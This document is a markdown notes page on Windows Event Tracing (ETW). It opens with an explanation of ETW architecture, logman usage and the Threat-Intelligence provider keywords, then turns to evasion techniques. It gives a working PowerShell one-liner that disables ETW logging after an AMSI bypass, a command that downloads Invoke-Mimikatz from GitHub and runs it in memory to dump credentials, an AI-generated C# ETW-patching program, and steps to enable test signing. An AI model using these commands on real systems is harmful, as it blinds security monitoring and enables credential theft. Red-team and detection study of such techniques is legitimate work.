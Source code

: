# ETW - Event Tracing for Windows (Kernel mode)

> **TL;DR** ETW basically is  a kernel level debug logging mechanism in Windows - it allows to gather advanced telemetry about functions being called. Windows Even Logs contain a subset of ETW events. Typically used by application developers to debug programs, but has found its way as a telemetry source for EDR's. 

Event Tracing for Windows (ETW) is a high speed tracing facility built into Windows. Using a buffering and logging mechanism implemented in the operating system kernel, ETW provides an infrastructure for events raised by both user mode (apps) and kernel mode components (drivers). ETW can be used for system and app diagnosis, troubleshooting, and performance monitoring.

![Screenshot](./images/etwarch.jpg)
https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw

***Provider***
A provider is an instrumented component that generates events. A provider can be a user mode app, a kernel mode driver, or the Windows kernel itself. In addition to fixed event data (header), an event can carry user data.

An event is an event-based representation of data. The data can be used for in-depth analysis. An event can also be used to produce counters. Counters provide a sample-based view of data. They typically contain a small set of data to show current state, for example I/O bytes per second and interrupts per second.

A provider must register with ETW and send events by calling the ETW Logging APIs. Providers register a callback function for enable and disable notifications so that tracing can be enabled and disabled dynamically.

***Session***
The ETW session infrastructure works as an intermediate broker that relays the events from one or more providers to the consumer. A session is a kernel object that collects events into kernel buffer and sends them to a specified file or real-time consumer process. Multiple providers can be mapped to a single session, which allows users to collect data from multiple sources.

***Controller***
A controller starts, stops, or updates a trace session. A session is a unit for tracing. Providers are mapped (or enabled) to a specific session. A controller enables and disables providers so that they can start sending events to ETW. Controller functionalities can be invoked with tools provided by Microsoft or you can write your own app.

Logman.exe is an in-box controller app. Windows Performance Recorder (WPR) in the Windows Performance Toolkit is the recommended controller process.

***Consumer***
A consumer is an app that reads a logged trace file (ETL file) or captures events in an active trace session in real time, and processes events. Event Viewer and Resource Monitor are in-box ETW consumer apps.

Windows Performance Analyzer (WPA) in the Windows Performance Toolkit is the recommended consumer process.


To see which ETW providers are running on the system
```code
logman query -ets
```

logman  query providers | select-string "defender"

Notice sysmon, Windows Defender...

```code
logman query providers Microsoft-Windows-Kernel-Process
```
|Provider|                                 GUID|
|----------------------------------|---------------------------------------------|
|Microsoft-Windows-Kernel-Process|         {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716}|

```code
logman start mysession -p {22FB2CD6-0E7B-422B-A0C7-2FAD1FD0E716} -o mytest.etl -ets
logman start mysession -p Microsoft-Windows-Kernel-Process -o mytest.etl -ets
logman stop mysession -ets
tracerpt mytest.etl
```


https://github.com/Microsoft/perfview/releases


logman create trace MyETWSession -p "Microsoft-Windows-Kernel-Process" 0x8 -o "C:\temp\kernel-process.etl" -ets

.\filebeat.exe -e -c filebeat.yml -d "*"



-----

```powershell 
logman start Microsoft-Windows-Kernel-Memory -p Microsoft-Windows-Kernel-Memory 0xffffffffffffffff win:informational -ets
logman stop Microsoft-Windows-Kernel-Memory -ets 
```

tracerpt .\Microsoft-Windows-Kernel-Memory.etl -o Microsoft-Windows-Kernel-Memory.evtx -of evtx -lr

Microsoft-Windows-DotNETRuntime
Microsoft-Windows-Threat-Intelligence


Provider                                 GUID
-------------------------------------------------------------------------------
Microsoft-Windows-Threat-Intelligence    {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}

-----

| Value              | Keyword                                                        | Description                                                                                           |
| ------------------ | -------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| 0x0000000000000001 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL                         | Allocates virtual memory in the local process.                                                        |
| 0x0000000000000002 | KERNEL_THREATINT_KEYWORD_ALLOCVM_LOCAL_KERNEL_CALLER           | Allocates virtual memory in the local process, called from kernel mode.                               |
| 0x0000000000000004 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE                        | Allocates virtual memory in a remote process.                                                         |
| 0x0000000000000008 | KERNEL_THREATINT_KEYWORD_ALLOCVM_REMOTE_KERNEL_CALLER          | Allocates virtual memory in a remote process, called from kernel mode.                                |
| 0x0000000000000010 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL                       | Changes the protection on a region of virtual memory in the local process.                            |
| 0x0000000000000020 | KERNEL_THREATINT_KEYWORD_PROTECTVM_LOCAL_KERNEL_CALLER         | Changes the protection on a region of virtual memory in the local process, called from kernel mode.   |
| 0x0000000000000040 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE                      | Changes the protection on a region of virtual memory in a remote process.                             |
| 0x0000000000000080 | KERNEL_THREATINT_KEYWORD_PROTECTVM_REMOTE_KERNEL_CALLER        | Changes the protection on a region of virtual memory in a remote process, called from kernel mode.    |
| 0x0000000000000100 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL                         | Maps a view of a file mapping into the address space of the local process.                            |
| 0x0000000000000200 | KERNEL_THREATINT_KEYWORD_MAPVIEW_LOCAL_KERNEL_CALLER           | Maps a view of a file mapping into the address space of the local process, called from kernel mode.   |
| 0x0000000000000400 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE                        | Maps a view of a file mapping into the address space of a remote process.                             |
| 0x0000000000000800 | KERNEL_THREATINT_KEYWORD_MAPVIEW_REMOTE_KERNEL_CALLER          | Maps a view of a file mapping into the address space of a remote process, called from kernel mode.    |
| 0x0000000000001000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE                   | Queues an asynchronous procedure call (APC) to a thread in a remote process.                          |
| 0x0000000000002000 | KERNEL_THREATINT_KEYWORD_QUEUEUSERAPC_REMOTE_KERNEL_CALLER     | Queues an asynchronous procedure call (APC) to a thread in a remote process, called from kernel mode. |
| 0x0000000000004000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE               | Sets the context of a thread in a remote process.                                                     |
| 0x0000000000008000 | KERNEL_THREATINT_KEYWORD_SETTHREADCONTEXT_REMOTE_KERNEL_CALLER | Sets the context of a thread in a remote process, called from kernel mode.                            |
| 0x0000000000010000 | KERNEL_THREATINT_KEYWORD_READVM_LOCAL                          | Reads virtual memory in the local process.                                                            |
| 0x0000000000020000 | KERNEL_THREATINT_KEYWORD_READVM_REMOTE                         | Reads virtual memory in a remote process.                                                             |
| 0x0000000000040000 | KERNEL_THREATINT_KEYWORD_WRITEVM_LOCAL                         | Writes to virtual memory in the local process.                                                        |
| 0x0000000000080000 | KERNEL_THREATINT_KEYWORD_WRITEVM_REMOTE                        | Writes to virtual memory in a remote process.                                                         |
| 0x0000000000100000 | KERNEL_THREATINT_KEYWORD_SUSPEND_THREAD                        | Suspends a thread.                                                                                    |
| 0x0000000000200000 | KERNEL_THREATINT_KEYWORD_RESUME_THREAD                         | Resumes a suspended thread.                                                                           |
| 0x0000000000400000 | KERNEL_THREATINT_KEYWORD_SUSPEND_PROCESS                       | Suspends all threads in a process.                                                                    |
| 0x0000000000800000 | KERNEL_THREATINT_KEYWORD_RESUME_PROCESS                        | Resumes all threads in a suspended process.                                                           |
| 0x0000000001000000 | KERNEL_THREATINT_KEYWORD_FREEZE_PROCESS                        | Freezes a process, preventing it from executing.                                                      |
| 0x0000000002000000 | KERNEL_THREATINT_KEYWORD_THAW_PROCESS                          | Thaws a frozen process, allowing it to execute.                                                       |
| 0x0000000004000000 | KERNEL_THREATINT_KEYWORD_CONTEXT_PARSE                         | Parses the context of a process or thread.                                                            |
| 0x0000000008000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_VAD_PROBE           | Probes the virtual address descriptor (VAD) for an execution address.                                 |
| 0x0000000010000000 | KERNEL_THREATINT_KEYWORD_EXECUTION_ADDRESS_MMF_NAME_PROBE      | Probes the memory-mapped file (MMF) name for an execution address.                                    |
| 0x0000000020000000 | KERNEL_THREATINT_KEYWORD_READWRITEVM_NO_SIGNATURE_RESTRICTION  | Reads or writes virtual memory without signature restrictions.                                        |
| 0x0000000040000000 | KERNEL_THREATINT_KEYWORD_DRIVER_EVENTS                         | Logs events related to kernel-mode drivers.                                                           |
| 0x0000000080000000 | KERNEL_THREATINT_KEYWORD_DEVICE_EVENTS                         | Logs events related to device operations.                                                             |
| 0x8000000000000000 | Microsoft-Windows-Threat-Intelligence/Analytic                 | Logs analytic events for threat intelligence.                                                         |

| Value | Level             | Description |
| ----- | ----------------- | ----------- |
| 0x04  | win:Informational | Information |

| PID        | Image |
| ---------- | ----- |
| 0x00000000 |       |

https://github.com/Lsecqt-Sponsors/Haunt_Agent/blob/main/Payload_Type/haunt/haunt/agent_code/etw.ps1
https://github.com/MHaggis/PowerShell-Hunter

https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/

run after amsi bypass:

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

then run

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

No detections, AMSI is disabled, ETW is disabled -> Check eventviewer -> no powershell logs.

## Understanding the Components:

* **`[Reflection.Assembly]::LoadWithPartialName('System.Core')`:**
    * Loads the `System.Core.dll` assembly, containing core .NET classes, including `System.Diagnostics.Eventing.EventProvider`.
* **`.GetType('System.Diagnostics.Eventing.EventProvider')`:**
    * Retrieves the `System.Diagnostics.Eventing.EventProvider` type, responsible for emitting ETW events.
* **`.GetField('m_enabled','NonPublic,Instance')`:**
    * Retrieves the `m_enabled` field of the `EventProvider` class, a non-public instance field that determines whether ETW events are enabled.
* **`.SetValue(...)`:**
    * Sets the value of the `m_enabled` field.
* **`[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')`:**
    * Retrieves the `System.Management.Automation.Tracing.PSEtwLogProvider` type, a PowerShell-specific wrapper around the .NET ETW functionality.
* **`.GetField('etwProvider','NonPublic,Static').GetValue($null)`:**
    * Retrieves the `etwProvider` field of the `PSEtwLogProvider` class, a non-public static field holding a reference to the `EventProvider` instance used by PowerShell.
* **`,0`:**
    * Sets the `m_enabled` field to `0` (false), disabling ETW events for the PowerShell `EventProvider`.

## How It Works (ETW Bypass):

* PowerShell uses the .NET `EventProvider` class to generate ETW events.
* The `PSEtwLogProvider` class in PowerShell acts as a bridge, holding the specific `EventProvider` instance used for PowerShell logging.
* The `m_enabled` field within the `EventProvider` class controls whether events are actually emitted.
* By using reflection, the code directly accesses and modifies this internal `m_enabled` field, setting it to `0`.
* This prevents the PowerShell `EventProvider` from generating ETW events, effectively bypassing ETW logging for that PowerShell process.

![Screenshot](./images/etw_diag.jpg)

## Key Points:

* This method relies on internal .NET implementation details and might break if those details change in future .NET or PowerShell versions.
* It only affects the current PowerShell process.
* It is very effective at disabling the ETW logging from within powershell.
* This technique is commonly used by malicious actors.
* EDR solutions monitor for this type of activity.

CSHARP CODE (AI Generated) using the same ETW bypass (also works for .net binaries)

```CSharp
using System;
using System.Diagnostics.Eventing;
using System.Reflection;

public class EtwBypass
{
    public static void Main(string[] args)
    {
        try
        {
            // Get the EventProvider type
            Type eventProviderType = typeof(EventProvider);

            // Find the m_enabled field (non-public, instance)
            FieldInfo mEnabledField = eventProviderType.GetField("m_enabled", BindingFlags.NonPublic | BindingFlags.Instance);

            // Get the EventProvider instance used by the application (you'll need to adapt this part)
            // This is the tricky part, as you need to find the specific instance you want to patch.
            // In a real application, you would need to find the event provider instance that is used.
            // This example creates a new instance just for demonstration.
            EventProvider dummyProvider = new EventProvider(Guid.NewGuid());

            // Set the m_enabled field to 0 (false)
            if (mEnabledField != null)
            {
                mEnabledField.SetValue(dummyProvider, 0);
                Console.WriteLine("ETW bypassed.");
            }
            else
            {
                Console.WriteLine("m_enabled field not found.");
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
    }
}
```

## ETW Patching in .NET Binaries vs. PowerShell

**PowerShell Patch:**

* Uses reflection to modify the `PSEtwLogProvider` within the PowerShell process.
* Specifically targets how PowerShell logs events.
* Limited to the PowerShell process.
* Executed as a PowerShell command.
* Targets the PowerShell ETW logging mechanism.

**.NET Binary Patch (C# Example):**

* Compiles into a standalone .NET executable.
* Uses reflection to directly modify the `EventProvider` class within the running .NET binary.
* Can patch ETW logging for any .NET application that uses the standard .NET `EventProvider` class, if the correct `EventProvider` instance can be located.
* Can affect any .NET application.
* Executed as a compiled executable.
* Targets the `EventProvider` class, allowing it to target any .NET application using that class.

**Key Differences and Implications:**

* **Scope:**
    * PowerShell patch: Limited to the PowerShell process.
    * .NET binary patch: Can affect any .NET application, if the correct event provider can be located.
* **Execution Context:**
    * PowerShell patch: Executed as a PowerShell command.
    * .NET binary patch: Executed as a compiled executable.
* **Targeting:**
    * Powershell patch: Targets the powershell ETW logging.
    * .net binary patch: Targets the event provider class, so it can target any .net application that uses that class.

**In summary:** The C# code provides a more general-purpose ETW patching mechanism that can be used independently of PowerShell, while the PowerShell one-liner is specific to the PowerShell environment.

---

# TelemetrySourceror

Make sure secure boot is disabled in VM

```powershell
bcdedit.exe -set TESTSIGNING ON
```

Reboot the machine

Use PSEXEC to run as system and run Telemetry Sourceror
